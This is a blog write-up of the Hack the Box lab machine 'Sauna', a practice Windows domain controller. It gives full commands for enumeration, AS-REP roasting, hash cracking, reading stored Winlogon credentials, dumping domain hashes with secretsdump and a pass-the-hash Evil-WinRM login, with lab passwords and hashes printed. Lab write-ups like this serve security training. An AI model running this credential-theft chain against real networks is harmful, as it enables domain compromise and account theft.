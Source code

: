 +++
author = "Nick"
categories = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
date = 2020-07-18T14:59:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/02/info.png"
slug = "hack-the-box-sauna"
summary = "Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!"
tags = ["hack the box", "windows", "easy", "evil-winrm", "impacket"]
title = "Hack the Box - Sauna"

+++


Welcome back! Today's post is for the Hack the Box machine - Sauna. It's a Windows machine with a difficulty listed as easy. Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA all_ports 10.10.10.175`

```
Nmap scan report for 10.10.10.175
Host is up (0.055s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-21 04:11:24Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=2/20%Time=5E4EE79D%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h01m23s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-02-21T04:13:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.56 seconds
```

We see a few things right off the bat. A site being hosted on port 80, LDAP, WinRM and RPC ports available as well as SMB. We get back a domain for LDAP, `EGOTISTICAL-BANK.LOCAL0`.

We'll start with enumerating the web site by hand. While we do that we'll also kick of a `gobuster` scan.

Command:
`gobuster dir -u http://10.10.10.175 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 15`

We'll also run the `nmap` script for ldap enumeration.

Command:
`nmap -n -sV --script "ldap*" -p 389 10.10.10.175`

We get a large output from this as well. At the bottom of the output we see we do indeed have a user. Hugo Smith. Now this doesn't quite match up with the users we saw on the about.html page, clever.

![](/images/2020/02/image.png)

We continue to enumerate the website but don't find anything. Our `gobuster` comes back with the same results we saw while we were manually browsing the site and source.

Now if you are familiar with attacking Windows machines you might be familiar with Kerberos and how much fun it is to break! In this case the first thing we are going to try is to leverage the Active Directory setting called 'Disabling Kerberos Pre-Authentication'. In short, [without Kerberos Pre-Authentication a malicious attacker can directly send a dummy request for authentication](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx). In order for this to work, we need a list of user. We have one user for sure. So we'll create a list of potential Active Directory names that this user could go by. 

```
hsmith
hugosmith
h.smith
hu.smith
hugo.smith
smith.hugo
smithh 
smith.h
```

Command:
`python3 GetNPUsers.py -format john -usersfile ~/Documents/htb/sauna/users.lst EGOTISTICAL-BANK.local/ -o ~/Documents/htb/sauna/impacket_output.txt
`

We get a hit on `hsmith`. Now we know the naming convention. We also noticed the about page with a list of the team members on it. We can then infer the names of these users in Active directory to have the same convention as above. We will compile them into a list and run that through the same impacket script.

```
fsmith
scoins
btaylor
sdriver
hbear
```

Once we do that we see four Session errors, but we have 5 users! We have a hash!

![](/images/2020/02/sauna-user.gif)

Now that we have a hash, let's crack it!

Command:
`john --wordlist=/usr/share/wordlists/rockyou.txt impacket_output.txt`

![](/images/2020/02/image-1.png)

We have a password of `Thestroke23`. Awesome, now we can potentially leverage this in `Evil-WinRM`.

![](/images/2020/02/image-2.png)

Turns out we can! We log in as fsmith and move right to the Desktop and snag our user.txt. Now it's time to start enumerating internally. We'll upload `WinPEAS` to the machine and run it to see what we can find.

Command:
`*Evil-WinRM* PS> upload /root/Tools/peas/winPEAS/winPEASbat/winPEAS.bat`
`*Evil-WinRM* PS> .\winPEAS.bat`

After you run the script, you should see some credentials. Alternatly, if you cannot get WinPEAS to run. You can run each of the queries it runs, manually. This isn't a terrible idea, especially if you could use some practice on enumerating your Windows machines. The key we are looking for is in this query:

Command:
`reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`

![](/images/2020/02/image-3.png" caption=")

We see a set of stored credentials! Let's pivot to this user just like we did with fsmith. However, this username doesn't match up with the users we saw. The enumerated username as shown by `WinPEAS` or manual enumeration is svc_loanmgr.

Command:
`./evil-winrm.rb -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'`

![](/images/2020/02/image-4.png)

Once we've connected as this service account we can do a few things. Normally I use `Bloodhound` to enumerate a second account but before I try that I try some basic things like Impackets [`secretdump.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py), WINpeas and some other internal commands. In this case, secrets dump works out!

Command:
`impacket-secretsdump -just-dc-ntlm egotisticalbank/svc_loanmgr@10.10.10.175`

![](/images/2020/02/sauna_secret_dump.gif)

You could also replicate this same technique by upload `mimikatz` and executing `lsadump`. Now we see we have an NTLM hash for our Administrator account. We have a few options.  We can crack the hash offline, we can use attempt to use some tools with these hashed credentials like `psexec.py` or we can login with the hash via `Evil-WinRM`. 

In this case I'll just login with `Evil-WinRM`.

Command:
`Evil-WinRM -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff`

![](/images/2020/02/admin_winrm.gif)

And we are in! We head over to the Desktop and grab the flag! Root acquired! I hope you enjoyed this box. All in all I would say this is a great box for understanding Windows' entry techniques.

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



